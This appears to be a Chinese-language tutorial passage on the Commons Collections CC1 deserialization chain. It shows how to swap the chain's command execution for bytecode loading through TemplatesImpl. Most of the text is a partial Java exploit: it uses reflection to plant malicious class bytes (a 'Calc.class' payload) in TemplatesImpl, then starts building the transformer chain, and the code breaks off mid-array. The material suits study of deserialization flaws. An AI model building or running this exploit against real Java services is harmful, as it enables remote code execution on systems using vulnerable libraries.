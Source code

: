 ![](https://i.imgur.com/1qFLBvp.png)











## TemplatesImpl 利用





### CC1 链的 TemplatesImpl 的实现方式

>TemplatesImpl 只是将原本的命令执行变成代码执行的方式，所以在不考虑黑名单的情况下，如果可以进行命令执行，则一定可以通过动态加载字节码进行代码执行。

如图，链子不变，只是最后的命令执行方式变了。

![](https://i.imgur.com/RrL6l8n.png)

所以这里我们先尝试修改命令执行的方法，这时候的链子应该是从后往前的，也就是确定了命令执行的方式之后，将传参设置为动态加载的字节码。并且前面的链子不变。

暂时的 EXP 是这样的。
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 // templates.newTransformer();  
  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
```